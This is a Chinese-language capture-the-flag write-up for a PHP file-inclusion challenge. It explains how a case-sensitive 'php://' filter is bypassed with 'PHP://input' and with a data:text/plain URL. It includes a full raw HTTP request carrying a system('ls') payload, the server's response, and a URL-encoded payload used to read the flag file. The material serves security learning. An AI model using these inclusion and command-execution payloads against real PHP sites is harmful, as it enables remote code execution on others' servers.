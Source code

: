 # web php include

## 解题思路：

- 打开网页，源代码直接写到封面上了：

    ```php
    <?php
    show_source(__FILE__);
    echo $_GET['hello'];
    $page=$_GET['page'];
    while (strstr($page, "php://")) {
        $page=str_replace("php://", "", $page);
    }
    include($page);
    ?>
    ```

- 分析源代码：首先echo一下hello的值，然后get一下page的值，如果page的值里含有 `php://` 的话，就把 `php://` 删掉再调用 `include()`

    - `strstr` : 对比两个字符串，并且把串一里 **从串二脑袋开始到串一尾巴结束** 的部分返回； **串一不含串二则返回false**

    - `include()` : 执行 `()` 中的php文件函数

    - `php://` : 伪协议的组成部分，也是这道题的核心解法部分，伪协议的具体内容我写在了writeup的末尾。

- 分析完代码，先传个 `../?hello=5555` 看看这段代码是不是确实能用；

    服务器返回：
    ```php
    <?php
    show_source(__FILE__);
    echo $_GET['hello'];
    $page=$_GET['page'];
    while (strstr($page, "php://")) {
        $page=str_replace("php://", "", $page);
    }
    include($page);
    ?>
    5555
    ```

    说明代码确实执行了，那接下来就开始想办法让它执行我们想给的php文件。

- 两种方法：

    - 第一种：使用伪协议中的 `php://input` 命令来进行文件上传，让服务器执行我们上传的东西：

        - `php://input` ：可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。

        - 方法很明确了，用 `php://input` 作为 `page` 的值，然后用BP在POST部分添加上我们要执行的php语句。

        - 但是题目说了， `php://` 不能出现，一旦检测到直接删除，怎么办呢？看了网上大牛的解答方法： 把 `php://` 换成 `PHP://` , 由于strstr对大小写敏感，所以 `while` 语句会直接被跳过，但是由于 `include()` 语句对大小写不敏感，所以该语句可以直接执行，运行我们的一句话木马。

        - 接下来尝试用BP构造报文，先试试GET后面直接加php语句：

            ```php
            GET /?page=PHP://input HTTP/1.1
            Host: 111.198.29.45:34456
            User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
            Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
            Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
            Accept-Encoding: gzip, deflate
            Connection: close
            Upgrade-Insecure-Requests: 1
            Content-Length: 21

            <?php system("ls") ?>
            ```

        - 服务器回应：

            ```php
            HTTP/1.1 200 OK
            Date: Sun, 02 Feb 2020 11:16:17 GMT
            Server: Apache/2.2.22 (Ubuntu)
            X-Powered-By: PHP/5.3.10-1ubuntu3
            Vary: Accept-Encoding
            Content-Length: 1552
            Connection: close
            Content-Type: text/html

            <code><span style="color: #000000">
            <span style="color: #0000BB">&lt;?php<br />show_source</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />echo&nbsp;</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">'hello'</span><span style="color: #007700">];<br /></span><span style="color: #0000BB">$page</span><span style="color: #007700">=</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">'page'</span><span style="color: #007700">];<br />while&nbsp;(</span><span style="color: #0000BB">strstr</span><span style="color: #007700">(</span><span style="color: #0000BB">$page</span><span style="color: #007700">,&nbsp;</span><span style="color: #DD0000">"php://"</span><span style="color: #007700">))&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$page</span><span style="color: #007700">=</span><span style="color: #0000BB">str_replace</span><span style="color: #007700">(</span><span style="color: #DD0000">"php://"</span><span style="color: #007700">,&nbsp;</span><span style="color: #DD0000">""</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$page</span><span style="color: #007700">);<br />}<br />include(</span><span style="color: #0000BB">$page</span><span style="color: #007700">);<br /></span><span style="color: #0000BB">?&gt;<br /></span>
            </span>
            </code>fl4gisisish3r3.php
            index.php
            phpinfo.php
            ```

            在报文最下面，有我们想要的东西。

        - 但是这里引出了一个问题，为什们明明 `php://input` 接收的是 **POST** 报文，这里用 **GET** 却也可以呢？

        - 我尝试把第一行的报文改成 `POST /?page=PHP://input HTTP/1.1`  ，发现居然也可以拿到结果，这到底是为什们呢？

        - 仔细看了一下大佬们的分析，原来是这样的： `php://input` 读取的内容是 **http请求中的 body 部分** ，而 **GET请求一般没有 body**， 如果 **强行给GET请求写上body** （像我第一次构造的内容一样） ， `php://input` 会把这部分内容当作POST内容（文件）读进来执行（[参考文章](https://blog.csdn.net/m0_37477061/article/details/80845853)）。

        - 那么反过来，为什么 **题目要求用GET提交参数** ，但是 **POST提交的page也被读取了呢？** 

        - 没有找到原因，记录下来，在下次回查时解决。

    - 第二种：使用另一种伪协议来实现：`data:text/plain/`

        - `data:text/plain/` ：将即将传入的语句作为文本上传，网页对其不做任何处理。

        - 把要执行的语句接到它后面，系统会认为 `page` 是一个文本文件，并将这个文本文件原封不动地读取进来，而 `include()` 调用的刚好是 `page` 指向的文件，这样就把一个 **系统认为是文本，而include()认为是php脚本** 的文件给执行了。

        - 构造payload：

            `http://111.198.29.45:34456/?page=data:text/plain/,%3C?php%20system(%22ls%22)%20?%3E`

        - 结果与上一种方法一致

        - 根据目录信息，把 `ls` 改为 `cat fl4gisisish3r3.php` 即可。

## 学到的知识：

- 伪协议相关：[参考资料](https://www.cnblogs.com/dubhe-/p/9997842.html)

## 遇到的问题：

- 为什么 **题目要求用GET提交参数** ，但是 **POST提交的page也被读取了呢？** 